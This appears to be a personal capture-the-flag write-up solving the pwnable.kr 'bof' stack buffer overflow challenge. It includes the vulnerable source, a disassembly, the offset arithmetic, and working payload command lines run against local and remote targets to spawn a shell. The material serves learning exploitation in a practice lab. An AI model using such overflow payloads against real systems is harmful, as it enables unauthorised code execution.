





## To pwn: bof

### Question: 
>Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?
>Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c
Running at : nc pwnable.kr 9000

### How did I pwn it?

1. I downloaded the sourcecode(**bof.c**) and executable(**bof**). Understanding the sourcecode will help us pwn it.

* Sourcecode:
	
		 #include <stdio.h>
		 #include <string.h>
		 #include <stdlib.h>
		 void func(int key){
	        char overflowme[32];
	        printf("overflow me : ");
	        gets(overflowme);       // smash me!
	        if(key == 0xcafebabe){
                system("clear");
	        }
	        else{
                printf("Nah..\n");
	        }
		}
		int main(int argc, char* argv[]){
	        func(0xdeadbeef);
	        return 0;
		}

* It is quite simple. **main** calls a function **func** with argument **0xdeadbeef**. 
* In **func**, 
	* There is a buffer **overflowme[32]**. 
	* **gets** is used, which means it does not check the length of string entered. 

* The input payload should be a in such a way that the **if** condition comes true, and we get the shell. 
* We have to overwrite the **key** value with **0xcafebabe**. 

2. **Pwning it** :

* Run the executable using  **gdb-peda**. 

* `gdb-peda$ b main`	: Breaking at main

* `gdb-peda$ b func` : Breaking at func

* `gdb-peda$ run`	

* Let us find out the **address** of **0xdeadbeef**. Have a look at the below image. Address = **0xffffcea0**.

*  Objective is to overwrite **0xdeadbeef** with **0xcafebabe** at address **0xffffcea0**. 

* This is the disassembly of function **func** :

		Dump of assembler code for function func:
	   0x080484fb <+0>:	push   ebp
	   0x080484fc <+1>:	mov    ebp,esp
	   0x080484fe <+3>:	sub    esp,0x38
	   0x08048501 <+6>:	mov    eax,gs:0x14
	   0x08048507 <+12>:	mov    DWORD PTR [ebp-0xc],eax
	   0x0804850a <+15>:	xor    eax,eax
	   0x0804850c <+17>:	sub    esp,0xc
	   0x0804850f <+20>:	push   0x8048620
	   0x08048514 <+25>:	call   0x8048390 <printf@plt>
	   0x08048519 <+30>:	add    esp,0x10
	   0x0804851c <+33>:	sub    esp,0xc
	   0x0804851f <+36>:	lea    eax,[ebp-0x2c]
	   0x08048522 <+39>:	push   eax
	   0x08048523 <+40>:	call   0x80483a0 <gets@plt>
	   0x08048528 <+45>:	add    esp,0x10
	   0x0804852b <+48>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
	   0x08048532 <+55>:	jne    0x8048546 <func+75>
	   0x08048534 <+57>:	sub    esp,0xc
	   0x08048537 <+60>:	push   0x804862f
	   0x0804853c <+65>:	call   0x80483d0 <system@plt>
	   0x08048541 <+70>:	add    esp,0x10
	   0x08048544 <+73>:	jmp    0x8048556 <func+91>
	   0x08048546 <+75>:	sub    esp,0xc
	   0x08048549 <+78>:	push   0x8048635
	   0x0804854e <+83>:	call   0x80483c0 <puts@plt>
	   0x08048553 <+88>:	add    esp,0x10
	   0x08048556 <+91>:	nop
	   0x08048557 <+92>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x0804855a <+95>:	xor    eax,DWORD PTR gs:0x14
	   0x08048561 <+102>:	je     0x8048568 <func+109>
	   0x08048563 <+104>:	call   0x80483b0 <__stack_chk_fail@plt>
	   0x08048568 <+109>:	leave  
	   0x08048569 <+110>:	ret    
		End of assembler dump.

* When I first looked at the disassembly, I was confused because there is **stack cookie** to protect the stack. But, it's presence did not hurt the exploit.

* Quickly moving the **<+39>**, where the argument for **gets** is pushed. The **starting address** of **overflowme** buffer is pushed. Let is make note of this address.

* Address of **overflowme** buffer = **0xffffce6c**. 
* We know that Address of **key** where **0xcafebabe** has to be stored = **0xffffcea0**.
* Difference between those addresses = **0xffffcea0** - **0xffffce6c** = **52**.(It is always good to have a terminal with python interpreter opened in it. It comes in very handy for these calculations, generating the payload strings and more)
* Let us look at the stack for more clarity. `gdb-peda$ x/20xw 0xffffce6c`

* From the above image, it is clear that payload length = **16 * 3 + 4 + 4** bytes.
* The intel architecture is a **little-endian** arch. So, 
	* **Payload**: **'a' * 52 + '\xbe\xba\xfe\xca'**

* You can also see the stack cookie there, which will get corrupted by "aaaa" of the payload. But it does not matter because, we are getting the shell before the stack cookie is checked. The code which checks the cookie(**xor    eax,DWORD PTR gs:0x14**) is never executed.

* In fact, no instructions from **<+70>** is executed. That is because,**system()** would run a new process. Till that new process terminates, system() won't return. As it doesn't return(till the spawned shell is alive), no instructions after that are executed.

3. Final step.

* I tried this out on the local executable and then the remote.

		(python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; cat) | ./bof
		whoami
		adwaith-os
* It succeeded. Tried it on the remote one.
	
		(python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; cat ) | nc pwnable.kr 9000

* **GAME OVER!** 

### FLAG: daddy, I just pwned a buFFer :)

-------------------------------------

**PS**: 

1. I spent a lot of time on finding **cat** will help me execute commands properly on the remote shell. This is roughly what I did to figure that out.

* I exploited the local executable,before going to the remote one.
	
	* I did not get a shell. It did not print **Nah..**, So , I was pretty sure **0xdeadbeef** was overwritten by **0xcafababe** , but I did not get the shell. Or, probably shell was spawned, but as soon as it got spawned, it used to get terminated. I got output like this.

	
	* I tried with remote also, I had the same problem. 
	
	* I wanted to investigate this. So, I wrote [this](./code_samples/code1.c) small program, if **system()** spawns a shell when this program is run. It spawned a shell! Have a look at this.

	* After searching about this on internet, i found [this](https://stackoverflow.com/questions/43294227/hijacking-system-bin-sh-to-run-arbitrary-commands?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa) stackoverflow answer, which solves our problem.
	
>If you control stdin : 
>What you'll need to do is connect stdin to something that will, when read, provide a source of commands **before** invoking that code.

* From the stackoverflow page, i came to a conclusion that the shell was spawned, it has nothing to execute, instantly it terminates. 

* We have to stop it from terminating by using the above fact. We have to connect stdin to something(I feel, it is a command), which when read by the shell executes commands from stdin. 

* I executed **bof** like this.

		$ (python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; echo "qwerty") | ./bof
		/bin/sh: 1: qwerty: not found
		*** stack smashing detected ***: ./bof terminated
		overflow me : Aborted (core dumped)
 
 * I understood that, whatever you echo, it gets echoed to the spawned shell, and shell tries to execute it. 
 * I want the shell to read the contents in the flag file. So, the payload is
 
		 $ (python -c "print 'a' * 52 + '\xbe\xba\xfe\xca'" ; echo "/bin/cat flag") | ./bof
		/bin/cat: flag: No such file or directory
		*** stack smashing detected ***: ./bof terminated
		overflow me : Aborted (core dumped)

* The echo command is echoing the text inside "" which is executed by the shell. 
* The command which continuously takes input and can give that text to shell is **cat** (It is like **echo** in a for loop, and we can give the **command** we want). 

* I tried it out and it worked.

2. First, when I input the payload without **cat**, there was no sign of a shell being spawned. On my local machine, I replaced **system("/bin/sh") with many other commands like system("**ls**"), system("**clear**"). They all were executed and segfault occured.

3. I thought I was not able to get a shell because i felt there is some propety of **stack cookie** I did not know. So, I searched for the official research paper and read it. Amazing technique to stop stack smashes.
[Link to the paper](https://github.com/adwait1-G/Malware-Analysis/blob/master/Resources/memory_corruption_vulnerabilities/Stackguard.pdf)

